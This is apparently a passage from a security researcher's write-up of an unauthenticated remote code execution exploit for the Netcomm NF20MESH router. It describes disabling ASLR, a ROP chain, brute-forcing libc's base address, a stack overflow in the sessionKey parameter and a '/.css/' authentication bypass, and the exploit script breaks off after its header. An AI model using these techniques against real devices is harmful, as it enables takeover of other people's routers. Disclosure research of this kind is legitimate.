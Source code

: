 To help with getting a working exploit, I turned ASLR off on the router by running the following command:

```
echo 0 > tee /proc/sys/kernel/randomize_va_space
```

This provided a more stable environment to help with debugging the ROP chain by not having addresses changing on me while getting it to work. After getting an exploit working with ASLR turned off, I had to now go back and get it working with it enabled. Fortunately during the debugging process of the current exploit, I noticed hat the main application wasn't actually crashing. Instead, it was actually forking out a `httpd` service which processed the request and was crashing. Additionally the number of bytes in the address range changing was bruteforceable. I grabbed the base address of `libc` from a crash and calcuated where the addresses to functions would be. 

Because the main process wasn't dying, I could keep issuing the same request in an infinite loop and see if I got lucky with `libc` being loaded again at the hardcoded base address by connecting to the telnet service:

![pwned](images/pwned.png)


## Exploit / TL;DR:
If you're really unlucky, it can take up to 10-15 minutes for the exploit to finally get a hit on libc's base address. I've found on average though that somewhere between 3-5 minutes seems to be the sweet spot.

```python
#!/usr/bin/python3
"""
Netcomm NF20MESH Unauthenticated RCE
Author: Brendan Scarvell
Vulnerable versions: <= R6B021

A stack based buffer overflow exists in the sessionKey query string parameter. An authentication bypass
was also discovered by providing /.css/ in the request path. Chaining both of the two bugs together
results in unauthenticated remote code execution.

The exploit can take up to 5-10 minutes until it gets lucky and hits the right base address for libc.
"""

import requests, telnetlib, sys, time

"""
task: cdd0dc00 ti: caca0000 task.ti: caca0000
PC is at 0x444444
LR is at 0x29218
pc : [<00444444>]    lr : [<00029218>]    psr: 60070010
```